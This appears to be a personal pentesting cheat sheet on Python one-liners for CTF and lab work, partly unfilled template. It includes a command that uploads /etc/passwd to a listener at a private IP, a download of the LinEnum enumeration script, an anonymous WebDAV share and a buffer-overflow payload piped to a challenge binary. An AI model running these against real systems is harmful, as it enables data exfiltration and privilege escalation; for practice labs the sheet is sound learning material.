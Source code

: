 # python

_What this tool does and when I reach for it_

## Primary Use Cases

Main things I use this tool for

## Command Patterns

### Category 1

Create an FTP server
```bash
sudo python3 -m pyftpdlib --port 21
```
^create-ftp-server

Create an FTP server with write permissions
```bash
sudo python3 -m pyftpdlib --port 21 --write
```
^write-create-ftp-server

Create an webserver
```bash
python3 -m http.server
```
^python3-webserver

Download a file
```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
^download-remote-file

Create an webserver with upload page
```bash
sudo python3 -m uploadserver
```
^uploadserver

Upload a file
```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
^upload-file

Create a Webdav share in the /tmp folder on port 80 with anonymous login
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
^wsgidav-create-share

Unzip a file
```bash
python3 -m zipfile -e upload.zip .
```
^unzip-file

### Category 2

Pipe raw bytes to a file input
```bash
python3 -c '__import__("sys").stdout.buffer.write(b"A"*56 + b"\x5a\x1e\x3c\x5a\x00\x00\x00\x00")' | /challenge/binary-exploitation-var-control 
```
^pipe-raw-bytes

### Category 3

Brief description of this category

command syntax ^python-category3

## Syntax I Forget

- Flag or option I always look up
- Parameter format I can't remember
- Output options or file formats

## When I Use This vs Alternatives

- **Use this tool when:** Specific circumstances
- **Use alternative when:** When other tools are better
- **Combines well with:** Tools that work together with this

## Personal Notes

- Things I learned from experience
- Common mistakes I made
- Environment-specific quirks

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #python
SORT file.ctime DESC
LIMIT 5
```

## Quick Links

- [[Primary-Technique]] - Main technique this supports
- [[Secondary-Technique]] - Other technique this supports

#python #tool